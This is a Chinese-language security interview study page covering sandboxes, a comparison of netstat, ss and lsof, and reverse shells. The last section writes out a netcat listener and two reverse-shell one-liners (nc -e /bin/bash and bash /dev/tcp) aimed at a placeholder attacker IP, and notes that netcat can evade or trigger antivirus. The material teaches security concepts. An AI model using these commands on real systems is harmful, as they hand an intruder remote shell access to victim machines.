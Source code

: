 ### 沙盒是什么，有什么作用
沙盒是将将应用程序或进程隔离在一个受控环境中，使其无法访问系统资源或执行潜在危险的操作。
利用：
沙盒可以限制应用程序对文件系统的访问权限
沙盒可以限制应用程序的网络访问权限
沙盒可以限制应用程序与其他进程之间的通信
沙盒可以限制应用程序对系统调用的访问权限
沙盒可以监控应用程序的行为


### 查看当前端口连接的命令有哪些？`netstat` 和 `ss` 命令的区别和优缺点；
使用终端，运行 netstat -tuln 命令可以显示当前所有的 TCP 和 UDP 连接，以及监听的端口。
使用 ss -tuln 命令也可以查看当前的 TCP 和 UDP 连接，以及监听的端口。
运行 lsof -i 命令可以列出当前打开的网络连接。

netstat:
优点：netstat 是一个广泛使用的命令，可用于多种操作系统，包括 Windows、Linux和 macOS。
它提供了多种选项和参数，可以显示各种网络连接、监听端口和路由表等信息。
缺点：在某些操作系统上，netstat 的输出可能相对较长，难以过滤和解析。某些版本的 netstat 也可能没有一些高级功能。
ss:
优点：ss 是一个新一代的网络工具，提供比 netstat 更快速和有效的网络连接查询。它能够显示更详细的连接信息，支持更多的过滤和排序选项。
缺点：ss 并不在所有操作系统上默认安装，需要单独安装。它的语法和选项可能与 netstat 略有不同，需要一些学习和适应的时间。
lsof:
优点：lsof 可以用于查看系统中所有打开的文件和网络连接，包括网络套接字和文件描述符等。它提供了广泛的选项和过滤条件，可以显示与网络相关的详细信息。
缺点：lsof 输出的信息可能相对复杂，对于初学者来说有一定的学习曲线。在某些操作系统上，lsof 需要以 root 或管理员权限运行才能查看所有进程的信息。


### 反弹 shell 的常用命令？一般常反弹哪一种 shell？为什么？
在攻击者机器上监听指定端口：nc -lvp <port>
在受攻击者机器上反弹 shell：nc <attacker_ip> <attacker_port> -e /bin/bash
在受攻击者机器上反弹 shell：bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1


Bash 是许多 Linux 和 Unix 系统的默认 shell，因此在目标系统上使用 Bash 反弹 shell 可能更加通用。
Netcat 是一款强大的网络工具，一些版本可能被杀毒软件视为潜在恶意工具而被拦截。
